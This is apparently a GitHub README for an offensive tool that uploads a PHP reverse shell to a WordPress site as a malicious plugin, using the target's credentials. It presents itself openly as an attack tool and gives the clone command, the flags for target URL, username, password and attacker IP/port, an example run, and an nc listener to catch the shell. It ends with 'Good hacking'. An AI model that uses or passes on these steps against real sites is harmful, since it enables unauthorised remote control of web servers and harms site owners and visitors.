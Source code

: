
# Evil Wordpress Plugin (Malicous)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password.

Install by running:

```bash
  git clone https://github.com/JoaoPedroMoreira02/Pwn_Wordpress.git
```
    
## Parameters [Running Script]

Help section (-h)

```bash
usage: Malicious.py [-h] [-t] [-u] [-p] [-L] [-P]

Wordpress Malicious plugin upload

options:
  -h, --help        show this help message and exit
  -t , --target     Target URL
  -u , --username   Wordpress Username
  -p , --password   Wordpress Password
  -L , --LHOST      Attacker IP address
  -P , --LPORT      Attacker LOCAL PORT

./app.py -t http://domain_name.com/wordpress -u User_FOX -p Pass -L 192.168.20.2 -P 4040 

```

Attacking the Target Website: 

```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

Executing Handler

```bash 
nc -lvp {LOCAL PORT}
```

The script will automatically give you the connection. 

***---> In case of complications or disconnection issues, you can just manually trigger the connection at the URL link given by the program <---***

***---> If the upload is still failing, check if the target user has Administrator permissions <---***
 
***---> Correct Syntax: "http://IP/wordpress | Wrong syntax: http://IP/wordpress/ <---***

## 

- ***Good hacking :)***




